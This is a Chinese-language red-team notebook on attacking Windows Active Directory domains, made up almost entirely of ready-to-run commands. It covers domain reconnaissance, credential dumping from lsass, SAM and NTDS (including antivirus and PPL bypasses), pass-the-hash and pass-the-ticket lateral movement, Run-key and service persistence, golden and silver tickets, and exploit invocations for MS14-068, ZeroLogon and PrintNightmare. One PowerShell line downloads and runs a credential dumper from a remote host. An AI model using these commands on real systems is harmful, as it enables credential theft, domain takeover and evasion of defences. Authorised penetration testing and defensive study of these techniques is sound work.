


title: 域渗透笔记
date: 2021-03-26 13:01:12
信息搜集
ADSearch
sharpcollection
利用ldap协议来查询AD信息,主要查询groups,users,computers好用,分别使用-G -U -C来查询.
使用-f来获取完整信息;
使用--attributes来根据-f完整信息进行过滤,默认显示cn
域外使用-u和-p来指定一个域用户以便域外查询
使用--port来指定使用ldap(389)或ldaps(636)
使用-d来指定域
ADCollector
轻量化域信息搜集，直接内存加载运行
是否处于域环境
ipconfig /all
net time /domain
wmic computersystem get bootupstate,username,totalphysicalmemory,systemtype,systemfamily,domain,dnshostname
,oemstringarray /value
查询DN
DN查询
wmic /Namespace:\\root\directory\ldap path ds_domain get ds_distinguishedname,ds_dc /value
命令行查看DNS解析记录
需要在域控上执行
Dnscmd . /ZonePrint exp.com
有几个域
net view /domain
域控是谁
域内的域控都在Domain Controller这个OU底下
要查询其他的域，/domain后跟:abc.com就行
net group "domain controllers" /domain
查域控
wmic /Namespace:\\root\directory\ldap path ds_computer where ds_useraccountcontrol=532480 get ds_cn,ds_useraccountcontrol,ds_dnshostname,ds_operatingsystem
还可以用adfind，指定根域DN就行了；或者直接dcdmp
AdFind.exe -b "OU=Domain Controllers,DC=exp,DC=com" -f "(objectclass=computer)" -dn
adfind.exe -sc dcdmp -dn
nslookup查询
Nslookup -type=SRV _ldap._tcp
域信任如何
nltest /domain_trusts
域管是谁
注意：域控与域管是两个不同的概念，域控指的机器/机器用户，域管指的域用户。
域用户全部属于成员用户，机器用户是以机器名后面加$来命名的。普通的域用户可以在域内任意一台同等权限的机器上登录（默认情况下），所以域用户不能代表那台特定的机器；机器用户是该台域内机器的管理员权限用户，所以机器用户代表了那台特定的机器。
net group "domain admins" /domain
域管组有谁
net localgroup administrators /domain
组内成员是谁
net group "enterprise admins" /domain
域组查询
net group /domain
wmic /Namespace:\\root\directory\ldap path ds_group get DS_cn,ADSIPath,DS_description
还可以用adfind，adfind有很多强大的命令，这个以后再研究整理吧
AdFind.exe -sc oudmp -dn
域密码策略是什么
net accounts /domain
域内机器有谁
net group "domain computers" /domain
wmic /Namespace:\\root\directory\ldap path ds_computer get ds_cn,ds_useraccountcontrol,ds_dnshostname,ds_operatingsystem
域内提权
KrbRelayUp.exe relay -domain exp1.com -CreateNewComputerAccount -ComputerName abc$ -ComputerPassword Aa123123.
还可用adfind，可以通过objectclass=Computer或者objectcategory=Computer查找域内的所有机器
AdFind.exe -f "(objectcategory=computer)" -dn
ldapsearch -x -h 10.1.1.1 -D "zhangs@exp.com" -b "DC=dc,DC=exp,DC=com" -w "123456" "objectclass=Computer" | grep sAMAccountName
DCSYNC
impacket导出的格式更便于阅读
python secretsdump.py exp.com/cs:123456@dc.exp.com -dc-ip 10.0.2.254 -just-dc-user administrator
secretsdump.py exp1.com/dc\$@192.168.14.100 -hashes :eebbbd6dd1dc5bdc02b26bd6f74bee8f -just-dc
dcsync exp.com
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:xx /password:12323 /all /csv" exit
DNS信息导出
查看dns区域
dnscmd /EnumZones
显示详细
dnscmd /zoneprint xx.com
使用SharpAdidnsdump.exe
在普通域用户的情况可以导出dns
SharpAdidnsdump.exe dc
添加域用户
添加一个域用户并将用户加入域管组
dsadd user "CN=testa1a,cn=users,dc=abenson,dc=com" -disabled no -pwd Aa123123 -pwdneverexpires yes -memberof "cn=domain admins,cn=users,dc=abenson,dc=com"
通过用户hash更改密码
更改，非域内测试不成功
lsadump::changentlm /server:192.168.52.100 /user:a1 /oldntlm:b660e61adc0aec1fe34711e6226fcc8c /newpassword:Aa123123..
恢复hash，如不成功可多更改几次密码再恢复，但更改密码次数受限于最短密码使用天数
lsadump::changentlm /server:192.168.52.100 /user:a1 /oldpassword:Aa123123.. /newntlm:b660e61adc0aec1fe34711e6226fcc8c
根据机器查找登录过的用户
指定机器的OU，批量查找
用1.ps
Get-UserLogon -all
Get-UserLogon -ou 'ou=domain controllers,dc=exp,dc=exp'
导出DN
adfind -dn
显示域内在线的机器
AdFind -sc computers_active name
显示域内所有机器
定位域用户的机器
持续监听域控的时候会显示域内所有最新的登录信息
python3 netview.py exp1/administrator:Aa123123.. -targets ip
域内用户有谁
net user、net group这种带net的命令，全部是以smb服务的samr协议进行通信查询的。
net user /domain
wmic /Namespace:\\root\directory\ldap path ds_user get ds_name,DS_distinguishedName,DS_userPrincipalName,DS_description,DS_memberOf
还可以用impacket的samrdump查询
samrdump.py exp.com/cs:123456@10.0.2.5 -csv
还可以用ldapsearch通过ldap协议查询
ldapsearch -x -h 10.0.2.254 -D "cs@exp.com" -b "DC=exp,DC=com" -w "Aa123123." "(&(objectCategory=person)(objectClass=user))"
还可以用adfind查询
AdFind.exe -b dc=exp,dc=com -f "(&(objectCategory=person)(objectClass=user))" -dn
域用户的登录名是什么
域用户的字段有姓有名还有登录名，这几个是可以得设置不一样的，OU指定用户的组
AdFind.exe -b "CN=cs,OU=ceshi,DC=exp,DC=com" displayName UserPrincipalName sAMAccountName
导出域内用户信息
AdFind -f "objectcategory=person" displayname company department name userprincipalname description
添加账户到域管组
adfind -users -rb CN=bba -dsq|admod -users -rb CN="Domain Admins" -stdinadd member
域用户是否活跃
这个是通过查找域用户相关的一些时间，例如创建时间、密码更改时间、上次登录时间来判定。
AdFind.exe -b "CN=cs,OU=ceshi,DC=exp,DC=com" whencreated pwdlastset lastlogon -tdcs
密码永不过期的域用户
AdFind.exe -f "useraccountcontrol:AND:=65536" -bit -dn
关于useraccountcontrol值的相关对应表参照文末
域用户能够登录的主机
这个是通过指定远程DC进行查询。如果查找没有结果，说明这个用户没有限制
AdFind.exe -h 10.0.2.254 -sc u:cs userWorkstations
import-module .\PowerView.ps1
Invoke-UserHunter -UserName AdministratorUser
域用户正在登陆的主机
psloggedon.exe \\dc
使用Powerview的Invoke-UserHunter
PVEFindADUser.exe -current
netsess \\dc
ACL查找部分
ADSI编辑器
adsiedit.msc
查找擴展權限
AdFind.exe -b "CN=Extended-Rights,CN=Configuration,DC=exp1,DC=com"
查找具有某ACL的对象，并根据Replicating Directory Changes过滤，查找用户或组或计算机 Replicating Directory Changes是displayName
用以下语句过滤
AdFind.exe -b "CN=Extended-Rights,CN=Configuration,DC=exp1,DC=com" displayname
-f指定值进行过滤
AdFind.exe -b "CN=Extended-Rights,CN=Configuration,DC=exp1,DC=com" -f "rightsGuid=9b026da6-0d3c-465c-8bee-5199d7165cba"
DACL和SACL存储在nTSecurityDescriptor里，以sddl格式存储，所以可以用下面的语句查询
AdFind.exe -b "cn=administrator,cn=users,DC=exp1,DC=com" nTSecurityDescriptor -sddl+++
还可以用下面的查询
adfind.exe -b "cn=administrator,cn=users,dc=exp1,dc=com" -sc getacl -sddlfilter
adfind对acl的过滤非常简便，只需在后添加过滤的样例即可。需要以;;;;;过滤，是因为输出的格式就是这样，例如正常输出如下
nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Change Password;;Everyone
Change Password在三个分号后，两个分号前，所有要以;;;change password;;过滤，无视大小写，可模糊匹配
查找是administrator的reset password的ace
adfind.exe -b "cn=administrator,cn=users,dc=exp1,dc=com" -sc getacl -sddlfilter ;;;Reset Password;;
AdFind.exe -b "cn=administrator,cn=users,DC=exp1,DC=com" nTSecurityDescriptor -sddl+++与 adfind.exe -b "cn=administrator,cn=users,dc=exp1,dc=com" -sc getacl都可以查询acl，但区别是 nTSecurityDescriptor会显示DACL和SACL，-sc getacl只显示DACL
Nmap的NSE脚本
smb-enum-sessions.nse获取域内主机的用户登录会话，查看当前是否有用户登录。下载地址：https://nmap.org/nsedoc/scripts/smb-enum-sessions.html
smb-enum-domains.nse对域控制器进行信息收集，可以获取主机信息用户、可使用密码策略的用户等。
smb-enum-users.nse可以使用此脚本对域控进行扫描
约束委派用户
AdFind.exe -b dc=exp1,dc=com -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" -dn
AdFind.exe -f "useraccountcontrol:AND:=524288" -bit -dn
约束委派主机
AdFind.exe -b dc=exp1,dc=com -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" -dn
或者用PowerSploit的PowerView.ps1
Get-DomainUser –TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto| fl
非约束委派用户
adfind
AdFind.exe -b dc=exp1,dc=com -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn
ldapsearch
ldapsearch -x -H ldap://10.0.2.254:389 -D "CN=cs,CN=Users,DC=exp,DC=com" -w Aa123123. -b "DC=exp,DC=com" "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" |grep -iE "distinguishedName"
非约束委派主机
域控都是非约束委派主机
adfind
AdFind.exe -b dc=exp1,dc=com -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn
ldapsearch
ldapsearch -x -H ldap://10.1.1.1:389 -D "CN=exp,CN=Users,DC=exp,DC=com" -w password -b "DC=exp,DC=com" "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" |grep -iE "distinguishedName"
查询SPN
setspn -Q */*
NBT-NS
nbtscan-1.0.35.exe -f 10.1.1.1
nbtscan-1.0.35-redhat-linux
共享文件夹发现
Snaffler.exe -s -o 1.log
SharpShares.exe ips
SharpShares.exe shares
使用windump监听网络数据包
使用前先确定网卡
WinDump.exe -i 1 -w 1.pcap -s 0
象征性地，可以使用Pcredz快速获取敏感密码。因为实际测试中，http的body都无法发现
Bypsss的信息搜集
使用csvde
本地
导出当前域内所有信息：
csvde -f all.csv
导出当前域内所有用户信息：
csvde -f user.csv -r "(&(objectCategory=person))"
导出当前域内所有机器信息：
csvde -f machine.csv -r "(&(objectCategory=computer))"
导出当前域内所有组信息：
csvde -f group.csv -r "(&(objectCategory=group))"
导出当前域内所有管理员组的用户信息：
csvde -f admin.csv -r "(&(objectCategory=group)(name=Domain Admins))"
导出当前域内所有OU信息：
csvde -f ou.csv -r "(&(objectCategory=organizationalUnit))"
导出当前域内所有的域用户名：
csvde -f username.csv -r "(&(objectCategory=person))" -l SamAccountName
导出当前域内所有的计算机名：
csvde -f machinename.csv -r "(&(objectCategory=computer))" -l name
远程
导出远程域内所有信息：
csvde -s 192.168.1.1 -a test\admin Password -f all.csv
使用ldifde
本地
导出当前域内所有信息：
ldifde -f all.txt
导出当前域内所有用户信息：
ldifde -r "(&(objectCategory=person))" -f user.txt
导出当前域内所有机器信息：
ldifde -r "(&(objectCategory=computer))" -f machine.txt
导出当前域内所有组信息：
ldifde -r "(&(objectCategory=group))" -f group.txt
导出当前域内所有管理员组的用户信息：
ldifde -r "(&(objectCategory=group)(name=Domain Admins))" -f admin.txt
导出当前域内所有OU信息：
ldifde -r "(&(objectCategory=organizationalUnit))" -f ou.txt
导出当前域内所有的域用户名：
ldifde -r "(&(objectCategory=person))" -l SamAccountName -f username.txt
导出当前域内所有的计算机名：
ldifde -r "(&(objectCategory=computer))" -l name -f machinename.txt
远程
导出远程域内所有信息：
ldifde -s 192.168.1.1 -a test\admin Password -f all.txt
使用AdFind
本地
导出当前域内所有信息：
adfind.exe -h 127.0.0.1>all.txt
导出当前域内所有用户信息：
adfind.exe -h 127.0.0.1 -f objectcategory=person>user.txt
导出当前域内所有机器信息：
adfind.exe -h 127.0.0.1 -f objectcategory=computer>machine.txt
导出当前域内所有组信息：
adfind.exe -h 127.0.0.1 -f objectcategory=group>group.txt
导出当前域内所有管理员组的用户信息：
adfind.exe -h 127.0.0.1 -f "(&(objectCategory=group)(name=Domain Admins))">admin.txt
导出当前域内所有OU信息：
adfind.exe -h 127.0.0.1 -f objectcategory=organizationalUnit>ou.txt
导出当前域内所有的域用户名：
adfind.exe -h 127.0.0.1 -f objectcategory=person SamAccountName>username.txt
导出当前域内所有的计算机名：
adfind.exe -h 127.0.0.1 -f objectcategory=computer name>machinename.txt
远程
导出远程域内所有信息：
adfind.exe -h 192.168.1.1 -u test\admin -up Password>all.txt
攻击方式
密码利用
读密码
meterpreter方式
meterpreter > hashdump
meterpreter > load mimikatz
meterpreter > msv #读的是hash
meterpreter > ssp #读的是明文
meterpreter > wdigest #读的是明文
mimikatz方式
sekurlsa可用的还有msv、wdigest、kerberos、tspkg、ssp、logonPasswords、ekeys等
mimikatz.exe "privilege::debug" "log 1.txt" "sekurlsa::logonpasswords" exit
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit
还有PowerSploit的
powershell "IEX (New-Object Net.WebClient).DownloadString('http://xx/xx'); Invoke-Mimikatz -DumpCreds"
读取lsass
procdump组合mimikatz
绕杀毒
将procdump.exe移动一下目录并重命名
C:\Program Files (x86)\Microsoft Visual Studio\dump64.exe
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "log res.log" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
AvDump.exe
.\AvDump.exe --pid <lsass pid> --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file C:\Users\admin\Desktop\lsass.dmp --min_interval 0
dotnet-dump.exe
具有微软签名的dump工具
dotnet-dump.exe collect -p <lsass pid>
CreateDump.exe
createdump.exe -u -f lsass.dmp <lsass pid>
Rundll32.exe
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\Users\admin\Desktop\lsass-comsvcs.dmp full
绕过PPL机制dump
PPL是微软的一种进程保护机制，如果LSA开启了PPL保护，那么用常规手段是无法抓到密码的
查询是否开启了PPL
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL
使用mimikatz绕过，需要落地文件来执行，且mimikatz数字签名不能被修改
!+
!processprotect /process:lsass.exe /remove
privilege::debug
sekurlsa::logonpasswords
抓完再恢复
!processprotect /process:lsass.exe
!-
使用开源工具绕过
PPLKiller
PPLcontrol
EDRSandblast
PPLdump
PPLmedic
PPLFault 最新
注册表导出本地读取
reg save hklm\sam sam.hive
reg save hklm\system system.hive
mimikatz.exe "log res.log" "lsadump::sam /sam:sam.hive /system:system.hive" exit
SSP注入获取密码
此方式需要管理人员交互操作。实现效果就是管理人员输入密码后，密码会被明文记录在磁盘上，虽然有点像是钓鱼，但技术实现并非钓鱼。
DLL注入
将mimilib.dll复制到system32下，修改注册表
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
内存注入
privilege::debug
misc::memssp
利用NTDS读取密码
创建NTDS快照
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
复制C盘影卷副本
vssadmin create shadow /for=C:
卷影副本 ID: {bbce8208-3ed9-4164-8022-72a59e54002a}
卷影副本卷名: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
利用复制出来的卷名将NTDS快照复制出来
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
利用impacket解
secretsdump -ntds ntds.dit.save -system system.save LOCAL
利用注册表读取密码
导出注册表
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'
# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL
# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
PTH&PTK
PTH在kb2871997之后可能会失败。但可以使用机器用户或域用户绕过。
IPC&RPC相关
impacket
IPC连接
smbclient.py exp1/administrator:Aa123123..@192.168.14.100
连接之后选择一个连接，ADMIN$默认在Windows目录下，正常情况下每个磁盘都会有一个自己的连接。
枚举计算机用户
lookupsid.py exp1/administrator:Aa123123..@192.168.14.100 9999
samr也可以用来枚举用户，还附带安全策略
samrdump.py exp1/administrator:Aa123123..@192.168.14.100
管理服务
可以自建服务
services.py exp1/administrator:Aa123123..@192.168.14.100 list
services.py exp1/administrator:Aa123123..@192.168.14.100 create -name test -display test -path "cmd.exe /c start c:\\1.exe"
services.py exp1/administrator:Aa123123..@192.168.14.100 start -name test
注册表管理
reg.py exp1/administrator:Aa123123..@192.168.14.100 query -keyName HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\run
添加一个自启动项目，参数的大小写非常敏感
reg.py exp1/administrator:Aa123123..@192.168.14.100 add -keyName HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run -v windowsupdate -vt REG_SZ -vd "C:\\1.exe"
查一下是否添加成功
reg.py exp1/administrator:Aa123123..@192.168.14.100 query -keyName HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\run -v windowsupdate
可用的注册表自启动如下
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v windowsupdate /t reg_sz /d "C:\Windows\system32\cmd.exe" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" /v windowsupdate /t reg_sz /d "C:\Windows\system32\cmd.exe" /f
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v windowsupdate /t reg_sz /d "C:\Windows\system32\cmd.exe" /f
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v windowsupdate /t reg_sz /d "C:\Windows\system32\cmd.exe" /f
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v windowsupdate /t reg_sz /d "C:\Windows\system32\cmd.exe" /f

创建服务
C:\Users\ADmanager\Desktop>sc \1.1.1.1 create sangefor binpath= c:\agent.exe start= auto
sc c:\1.exe \\1.1.1.1\c$\agent.exe
计划任务
默认c盘下
at \\1.1.1.1 16:33 1.exe
SCHTASKS /Create /S 1.1.1.1 /U exp.com\test /P "Aa123123.." /SC ONCE /ST 11:00 /TN test1 /TR c:\1.exe /RU system
WMI远程创建进程
wmic /node:1.1.1.1 /user:exp1\administrator /password:xxxx process call create c:\edr.exe
用list查看是否运行成功
wmic /node:1.1.1.1 /user:exp1\administrator /password:xxxx process where name="edr.exe" get executablepath
SharpExec-推荐
sharpcollection
打开shell
SharpExec.exe -m=wmiexec -i=192.168.14.100 -d=exp1.com -u=administrator -p=Aa123123..
执行命令
SharpExec.exe -m=wmi -i=192.168.14.100 -d=exp1.com -u=administrator -p=Aa123123.. -e=C:\Windows\System32\cmd.exe -c="/c notepad.exe"
上传文件
上传后会自动运行
SharpExec.exe -m=wmi -i=192.168.14.100 -d=exp1.com -u=administrator -p=Aa123123.. -f=本地路径\calc.exe -e=c:\11.exe
impacket方式
这几个脚本的使用参数都是一样的，exe和py都是一样的
wmiexec.py 动静一般
psexec.py 动静大
dcomexec.py 动静小
smbexec.py 动静大
atexec.py
有明文密码的情况下
python2 wmiexec.py administrator:Aa123123.@10.0.2.254
有hash的情况下
工作组
psexec.py -hashes b9466d8c3afe060325ad3b83fa6627c7:379529bb14c7cc48eb314445c3529f49 workgroup/administrator@192.168.80.5
域
python2 wmiexec.py exp/administrator@10.0.2.254 -hashes :b660e61adc0aec1fe34711e6226fcc8c
有ase256的情况
python2 wmiexec.py exp/administrator@10.0.2.5 -aesKey a38e70861856e2f4c98134b5288383c7992e63c5031a9540e636d2cafa9e88d6
mimikatz方式
ntlm可改为rc4、aes256、aes128
sekurlsa::pth /user:win10 /domain:test.local /ntlm:6a6293bc0c56d7b9731e2d5506065e4a
远程启动一个进程
mimikatz sekurlsa::pth /user:admin /domain:ABENSON /ntlm:b660e61adc0aec1fe34711e6226fcc8c /run:"cmd -w hidden"
偷取进程TOKEN
steal_token PID
WMI PTH有杀毒拦的解决方式
使用wmiexec-RegOut解决
python3 wmipersist-Modify.py -hashes :b660e61adc0aec1fe34711e6226fcc8c exp.com/administrator@10.1.1.1 'ipconfig -all' -with-output
使用wmiexec-Pro解决
通过WMI写入注册表来执行exe
python3 wmi_reg_exec.py administrator@test.com -H xxxxxxx-f mimikatz.exe -a '"coffie" "exit"'
python3 wmi_reg_exec.py administrator:abc123@dc -f aaa.exe
DCERPC方式
https://github.com/Mr-Un1k0d3r/SCShell
有bof插件
SCShell.exe target service payload domain username password
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator Password
mimikatz使用打开cmd直接连
sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:cmd.exe
python scshell.py DOMAIN/USER@target -hashes 00000000000000000000000000000000:ad9827fcd039eadde017568170abdecce
批量方式
CS、crackmap都可以批量PTH，CS直接点点点就行了
crackmapexec
这个工具的思路作用是直接命令执行或传马
SMB服务探测
crackmapexec smb 192.168.3.0/24
查看密码策略
crackmapexec smb 10.0.2.5 -u administrator -p '123123' --pass-pol
hashdump
crackmapexec smb 10.0.2.5 -u administrator -p '123123' --sam
枚举组
crackmapexec smb 10.0.2.5 -u administrator -p '123123' --local-groups
基于smbexec执行
crackmapexec smb 10.0.2.5 -u administrator -p '123123' --exec-method smbexec -x 'whoami'
基于dcom执行
crackmapexec smb 10.0.2.5 -u administrator -p '123123' --exec-method mmcexec -x 'whoami'
基于atexec执行
crackmapexec smb 10.0.2.5 -u administrator -p '123123' --exec-method wmiexec -X 'whoami'
利用hash传递
crackmapexec smb 10.0.2.5 -u administrator -H '579110c49145015c47ecd267657d3174' --exec-method atexec -x 'whoami'
上传文件
默认到C盘，源-目标
crackmapexec smb 10.0.2.5 -u administrator -p '123123' --put-file 1.bin 32.bin
查看电脑的盘符
crackmapexec smb 10.0.2.5 -u administrator -p '123123' --disks
PowerSploit
Invoke-WMIexec Invoke-SMBExec
命令格式
执行
Invoke-WMIExec -Target 10.0.2.5 -Domain workgroup -Username uac -Hash 36aa83bdcab3c9fdaf321ca42a31c3fc -Command "calc" -verbose
检查
Invoke-WMIExec -Target 192.168.100.20 -Username administrator -Hash F6F38B793DB6A94BA04A52F1D3EE92F0
绕过Win32_Process.create的PTH
360LINTON写的vbs工具，无需445
主要功能：1、命令执行；2、文件上传；3、文件下载
有命令回显执行方式
> cscript WMIHACKER_0.6.vbs /cmd 1.1.1.1 administrator "Password!" "systeminfo" 1
无命令回显
> cscript WMIHACKER_0.6.vbs /cmd 1.1.1.1 administrator "Password!" "systeminfo > c:\1.txt" 0
模拟shell模式
> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!"
文件上传-复制本机calc.exe到远程主机c:\calc.exe
> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"
文件下载-下载远程主机calc.exe到本地c:\calc.exe
> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe"
使用wmi事件订阅的PTH
lengyi写的工具
修改js文件中的命令
PS C:\Users\Administrator\Desktop> New-WMIShell -Target '192.168.2.115' -Username 'administrator' -Password 'abc123!' -ProcessName 'notepad.exe' -JScriptPath C:\Users\Administrator\Desktop\payload.js -FilterName 'sdqwsda' -ConsumerName 'sdqwsda'
使用hash登录RDP
win7测试失败
sekurlsa::pth /user:administrator /domain:remoteserver /ntlm:579110c49145015c47ecd267657d3174 "/run:mstsc.exe /restrictedadmin"
PTT
票据操作
kekeo申请票据
kekeo tgt::ask /user:xx /domain:xxx /ntlm:xxx
kekeo导入票据
kekeo kerberos::ptt xxx.xxx
cmd方式
cmd:>klist 查看票据
cmd:>klist purge 删除票据
mimikatz方式
mimikatz # kerberos::purge //清空当前机器中所有凭证
mimikatz # kerberos::list //查看当前机器凭证
mimikatz # kerberos::ptt 票据文件 //将票据注入到内存中
票据的转换
用mimikatz，kekeo，rubeus生成的凭据是以.kirbi后缀的。impacket 生成的凭据的后缀是.ccache。
使用ticket_converter.py可以相互转换。
使用KrbCredExport可以将ccache转换为kirbi
黄金票据
制作黄金票据的基础是获取了krbtgt账户的hash。
通过各种办法导出krbtgt的hash，然后制作票据。
制作票据，可以指定/rc4、aes256、aes128
kerberos::golden /admin:administrator /domain:exp1.com /sid:S-1-5-21-2245962460-1542597299-2684170513 /krbtgt:f123d13e88766c87ec8fbddd01a4a325 /ticket:admin.tck
注入票据
kerberos::/ptt 1.tck
白银票据
白银票据使用机器账户的ntlm hash，使用cifs文件服务，仅能访问特定服务，不限于cifs文件服务
kerberos::golden /domain:test.local /sid:S-1-5-21-514356739-3204155868-1239341419 /target:dc.test.local /service:cifs /rc4:9150e40e4ec936a15baf384ca382a3df /user:dc$ /ptt
漏洞利用
MS14-068
基于PAC产生的漏洞
windows利用
MS14-068.exe -u cs@exp.com -s S-1-5-21-2245962460-1542597299-2684170513-1103 -d 10.0.2.254 -p Aa123123.
Linux上利用
MS14-068.py -u cs@exp.com -s S-1-5-21-2245962460-1542597299-2684170513-1103 -d 10.0.2.254 -p Aa123123.
生成票据后
export KRB5CCNAME=xx.krb
psexec.py exp.com/cs@dc.exp.com -k -no-pass -debug -dc-ip 10.0.2.254 -target-ip 10.0.2.254
keko利用
exploit::ms14068 /domain:exp.com /user:cs /password:Aa123123. /ptt
CVE-2020-1472 (ZeroLogon)
ZeroLogon通过置空DC机器用户的密码来打DC
python利用
置空DC机器用户密码
python3 cve-2020-1472-exploit.py WIN-I8E0L339L6E 10.0.2.254
读取DC的hash
python3 secretsdump.py exp.com/WIN-I8E0L339L6E\$@10.0.2.254 -just-dc -no-pass
PTH，PTK连
wmiexec.py exp/administrator@10.0.2.254 -hashes :b660e61adc0aec1fe34711e6226fcc8c
快速利用 zerologon-Shot-main
mimikatz利用
漏洞检测
lsadump::zerologon /target:WIN-I8E0L339L6E.exp.com /account:DC$
置空
lsadump::zerologon /target:WIN-I8E0L339L6E.exp.com /account:WIN-I8E0L339L6E$ /exploit
查看票据
lsadump::dcsync /user:krbtgt /domain:exp.com
生成黄金票据
lsadump::dcsync /domain:exp.com /dc:WIN-I8E0L339L6E.exp.com /user:krbtgt /authuser:WIN-I8E0L339L6E$ /authdomain:exp /authpassword: /authntlm
impacket生成黄金票据
goldenPac.py test.local/jack:123456!@#@WIN-I8E0L339L6E.exp.com
Powershell利用
Invoke-ZeroLogon.ps1
攻击
Invoke-ZeroLogon DC.exp.com
恢复域控密码
读取DC注册表
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
读原先机器用户HASH
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
还原HASH
python3 reinstall_original_pw.py WIN-I8E0L339L6E 10.0.2.254 13adade6efd67a927131a3149a7693c4
exp.com/WIN-I8E0L339L6E\$@10.0.2.254 -just-dc -no-pass
CVE-2021-1675 （printnightmare）
通过print spooler服务的漏洞
mimikatz利用
需保障UNC访问可以匿名
printnightmare
/try:10
misc::printnightmare /server:dc2.exp2.com /library:\\pc2.exp2.com\share\dll.dll
misc::printnightmare /server:dc.exp1.com /library:\\pc1.exp.com\q\aa.dll /authuser:w1 /authdomain:exp2.com /authpassword:Aa123123 /u
python利用
转成了exe
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
